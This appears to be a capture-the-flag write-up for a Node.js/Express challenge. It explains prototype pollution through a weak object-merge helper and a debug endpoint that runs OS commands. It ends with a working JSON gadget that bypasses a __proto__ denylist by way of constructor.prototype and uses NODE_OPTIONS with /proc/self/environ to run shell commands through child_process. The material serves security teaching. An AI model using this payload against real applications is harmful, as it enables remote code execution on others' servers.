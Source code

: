 ```javascript
router.get('/debug/:action', (req, res) => {
    return DebugHelper.execute(res, req.params.action);
});

router.post('/api/calculate', (req, res) => {
    let student = ObjectHelper.clone(req.body);

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasBase(student.paper)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});
```

### Conclusion
By going through the files, we notice that `ObjectHelper` is vulnerable to prototype pollution. 
>In JavaScript, objects can inherit properties and methods from other objects. This inheritance is achieved through the prototype chain, which is a series of objects that are linked together.

>Prototype pollution occurs when an attacker is able to modify the prototype of an object to introduce unexpected behavior. This can happen when an application blindly trusts user input to modify the properties of an object without proper validation.

There are three factors to a [prototype pollution vulnerability](https://portswigger.net/web-security/prototype-pollution):
* The **source** - This is any input that enables you to poison prototype objects with arbitrary properties.
* The **sink** - JavaScript code that enables arbitrary code execution.
* The **gadget** - This is the payload and is any property that is passed into a sink without proper filtering or sanitization.

In this challenge:
* The **source** is the `ObjectHelper` class as the developers tried to mitigate this by filtering out the `__proto___` key through a denylist, we will be able to bypass the check and exploit the `merge` function.
* The **sink** is the `DebugHelper` class as both `version` and `ram` perform os commands, but with using the `version` argument we get output in `txt` format.
* The **gadget**, will be build in the exploitation phase.

## Exploit
### Building the gadget
We found some a good payload that uses `constructor.prototype` instead of using `__proto__` to bypass the check in `ObjectHelper` on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce).

```javascript
{
  "constructor": {
    "prototype": {
      "env": {
        "payload": "console.log(require(\"child_process\").execSync(\"ls\").toString())//",
        "NODE_OPTIONS": "--require /proc/self/environ"
      }
    }
  }
}
```
